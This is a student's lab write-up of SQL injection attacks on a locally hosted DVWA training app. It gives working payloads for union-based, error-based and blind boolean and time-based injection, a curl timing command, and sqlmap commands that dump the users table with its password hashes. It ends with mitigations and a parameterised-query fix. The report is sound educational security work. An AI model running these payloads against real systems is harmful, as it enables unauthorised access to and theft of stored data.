# Assignment 3: SQL Injection Attacks on a Vulnerable Web Application

**Student:** Tshering Phuntsho  
**Student ID:** 02230310  
**Module:** WEB404 - Secure Coding Practices     
**Date:** 15 September, 2026  

## 1. Objective

To set up a vulnerable web application, perform several types of SQL injection (SQLi) attacks against it and document the results.

## 2. Introduction

SQL injection occurs when user input is concatenated directly into a SQL query instead of being treated as data. An attacker can alter the query's logic to bypass authentication, read data they should not have access to, or in some cases modify or delete data. SQLi has consistently been one of the most critical entries in the OWASP Top 10.

## 3. Tools and Environment

| Item | Details |
| --- | --- |
| Operating system | Linux (Kali) |
| Target application | DVWA (Damn Vulnerable Web Application), running locally in Docker |
| Target address | `http://localhost:8080` |
| Database | MySQL/MariaDB |
| Tools | Browser, terminal, sqlmap |

DVWA is intentionally vulnerable and built for training and was already running locally for Assignment 1. Testing is confined to this local instance.

## 4. Setup

```bash
docker run -d -p 8080:80 vulnerables/web-dvwa
```

1. Open `http://localhost:8080`, log in with the default credentials `admin` / `password`.
2. Click **Create / Reset Database** on first run.
3. Go to **DVWA Security** and set the level to **Low** for the attacks.
4. Open the **SQL Injection** section.


*Screenshot 1: DVWA login page and dashboard.* 


*Screenshot 2: DVWA Security page set to Low.*

## 5. Methodology

Each attack below was attempted against the `id` parameter of the SQL Injection page (`/vulnerabilities/sqli/?id=...`) and, where noted, against the login form. The underlying vulnerable query in DVWA (Low level) is:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

Since `$id` is inserted directly into the query with no sanitisation or parameterisation, it is injectable.


*Screenshot 3: output of User ID 1*

## 6. Attacks Performed

### 6.1 Logic Bypass — Extracting All Records

Note: DVWA's own login form uses a parameterised query and is not SQL-injectable at any security level. The SQL Injection module's `id` parameter is the actual injectable point, so that is used here instead.

**Location:** SQL Injection page, `id` field **Payload:** `%' or '0'='0`

Resulting query logic:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '%' or '0'='0';
```

The page is designed to return one user's name for one submitted ID. Because `'0'='0'` is always true, the `WHERE` clause matches every row instead of just one, so the application returns the first and last name of every user in the data table, the page was never intended to expose for a single lookup.


*Screenshot 4: Payload entered and the full list of names returned instead of one.*


### 6.2 Union-Based Injection

**Step 1: find the number of columns:**

```
1' ORDER BY 1-- -
1' ORDER BY 2-- -
1' ORDER BY 3-- -   (errors here means 2 columns)
```

**Step 2: confirm injectable columns:**

```
1' UNION SELECT 1,2-- -
```

**Step 3: extract data:**

```
1' UNION SELECT user, password FROM users-- -
```

**Result:** the page, which normally shows only a first and last name, instead displays every username and its password hash from the `users` table.


*Screenshot 5: Union injection payload and the dumped usernames/password hashes.*

### 6.3 Error-Based Injection

**Payload:**

```
1' AND extractvalue(1,concat(0x7e,version()))-- -
```

**Result:** MySQL throws an XPATH syntax error that includes the database version string in the error message, confirming the database type and version without needing a UNION.


*Screenshot 6: Error message showing the leaked database version.*

### 6.4 Blind Boolean-Based Injection

**True condition:** `1' AND '1'='1` **False condition:** `1' AND '1'='2`

**Result:** the true payload returns the normal user record; the false payload returns no record, even though both are syntactically valid. This difference in page content (true/false) can be used to extract data one bit/character at a time without ever seeing the raw data.


*Screenshot 7: True responses.*


*Screenshot 8: False responses.*

### 6.5 Blind Time-Based Injection

**Payload:**

```
1' AND SLEEP(5)-- -
```

**Command:**

```bash
time curl -s -G "http://localhost:8080/vulnerabilities/sqli/" \
  --data-urlencode "id=1' AND SLEEP(5)-- -" \
  --data-urlencode "Submit=Submit" \
  --cookie "PHPSESSID=<session-id>; security=low"
``` 

**Result:** the server takes about 5 extra seconds to respond, confirming the injection works even when the page shows no visible difference and no error, by measuring response time instead of content.


*Screenshot 9: curl timing showing the \~5 second delay.*

### 6.6 Automated Exploitation with sqlmap

```bash
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit#" \
  --cookie="PHPSESSID=<session-id>; security=low" \
  --batch --dbs

sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit#" \
  --cookie="PHPSESSID=<session-id>; security=low" \
  -D dvwa -T users --dump
```

**Result:** sqlmap automatically identifies the injectable parameter, determines the database type and version, enumerates databases and tables and dumps the full contents of the `users` table, confirming the manual findings in a fraction of the time.


*Screenshot 10: sqlmap output identifying the injection point.*


*Screenshot 11: sqlmap output showing the dumped users table.*

## 7. Results Summary

| # | Attack type | Payload | Outcome |
| --- | --- | --- | --- |
| 1 | Extracting all users | `%' or '0'='0` | The full list of users names returned |
| 2 | Union-based | `1' UNION SELECT user, password FROM users-- -` | Dumped all usernames and password hashes |
| 3 | Error-based | `1' AND extractvalue(1,concat(0x7e,version()))-- -` | Leaked database version via error message |
| 4 | Blind boolean-based | `1' AND '1'='1` vs `'1'='2` | Extracted data via true/false page differences |
| 5 | Blind time-based | `1' AND SLEEP(5)-- -` | Extracted data via response-time differences |
| 6 | Automated (sqlmap) | — | Full database and table enumeration and dump |

## 8. Root Cause

At the Low security level, DVWA builds the query by directly concatenating the `id` parameter into the SQL string instead of using a parameterised query. Because the database cannot tell user data apart from code in this form, any input containing SQL syntax (quotes, keywords, comment markers) changes the meaning of the query.

## 9. Recommended Mitigations

| Mitigation | Description |
| --- | --- |
| Parameterised queries | Bind user input as data, never as part of the query string; this is the primary fix |
| Least privilege database account | The web application's DB user should not have rights to read tables outside what it needs, or to run administrative commands |
| Input validation | Validate expected format (e.g. numeric IDs) before the value reaches the query |
| ORM usage | Frameworks such as Sequelize, SQLAlchemy or Eloquent parameterise queries by default |
| Web Application Firewall | Can detect and block common injection patterns as a secondary layer (covered in Assignment 4) |
| Error handling | Do not return raw database error messages to users, to prevent error-based leakage |
| Least information in errors | Disable verbose DB errors in production |

Example fix (parameterised query in PHP/MySQLi):

```php
$stmt = $mysqli->prepare("SELECT first_name, last_name FROM users WHERE user_id = ?");
$stmt->bind_param("s", $id);
$stmt->execute();
```

## 10. Conclusion

Against DVWA at Low security, six categories of SQL injection were demonstrated: authentication bypass, union-based extraction, error-based extraction, blind boolean-based extraction, blind time-based extraction and fully automated exploitation with sqlmap. All of them succeeded because user input was concatenated directly into SQL queries. Raising DVWA's security level introduced input escaping that blocked the simplest payloads, but the only complete fix is parameterised queries, combined with least-privilege database accounts and proper error handling. The exercise demonstrates why SQL injection remains one of the most dangerous and most preventable web vulnerabilities.

## 11. References

- OWASP SQL Injection
- OWASP Testing Guide: Testing for SQL Injection
- DVWA: github.com/digininja/DVWA
- sqlmap documentation: sqlmap.org
